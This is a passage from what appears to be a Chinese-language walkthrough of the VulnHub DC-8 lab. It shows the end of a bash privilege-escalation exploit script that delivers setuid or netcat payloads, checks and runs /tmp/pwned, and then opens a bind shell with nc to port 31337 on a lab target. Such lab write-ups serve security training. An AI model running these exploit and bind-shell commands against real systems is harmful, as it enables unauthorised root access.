 ```bash

	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_SETUID
	exploit
	echo

	echo "Waiting 5 seconds..."
	sleep 5
	ls -l /tmp/pwned
	/tmp/pwned

elif [ $METHOD = "netcat" ]; then
	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_NETCAT
	exploit
	echo
	echo "Waiting 5 seconds..."
	sleep 5
	nc -v 127.0.0.1 31337

else
	usage
fi
EOF

bash pri.sh -m netcat
```

耐心等待

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/14.png)

这个时候再用 kali 新建一个 bind shell 连接
```
nc -nv 192.168.141.141 31337
```
